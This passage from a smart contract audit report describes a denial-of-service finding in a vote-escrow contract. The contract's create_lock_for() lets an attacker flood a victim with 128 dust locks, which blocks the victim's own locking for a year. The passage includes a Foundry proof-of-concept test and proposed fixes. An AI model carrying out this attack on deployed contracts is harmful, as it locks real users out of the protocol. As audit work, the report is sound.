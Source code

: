 This is a significant issue because the user cannot resolve it by calling `withdraw()` to eliminate the locks, as they must wait until the lock period expires. The attacker can set the lock to `MAXTIME`, forcing the user to wait a full year before being able to create a new lock.

```solidity
require(block.timestamp >= _locked.end, "The lock didn't expire");
```

To better understand the issue, copy the following POC into `vePeg.t.sol`.

```solidity
function test_DOS_createlockfor() external {

        uint256 aliceAmountToLock = 1;
        uint256 aliceLockDuration = 365 days;

        vm.startPrank(ALICE);

        peg.approve(address(ve), type(uint256).max);

        //Alice creates 128 locks, each with 1 wei and the maximum duration, to perform a DOS attack on Bob
        for(uint256 i = 0; i < 128; i++) {

            uint256 aliceLockId = ve.create_lock_for(aliceAmountToLock, aliceLockDuration, BOB);
        }

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobAmountToLock = 1e18;
        uint256 bobLockDuration = 365 days;

        peg.approve(address(ve), bobAmountToLock);

        //Bob attempts to create a lock, but the transaction reverts due to Alice's DoS attack.
        vm.expectRevert("dstRep would have too many tokenIds");
        ve.create_lock(bobAmountToLock, bobLockDuration);

        vm.stopPrank();
    }
```

## Recommendations

Two potential fixes:

1. Set a minimum value requirement for the amount necessary for creating a lock to make the attack less feasible.
2. Restrict `create_lock_for()` access to trusted entities only.

# [M-06] `MAX_DELEGATES` limit can be bypassed
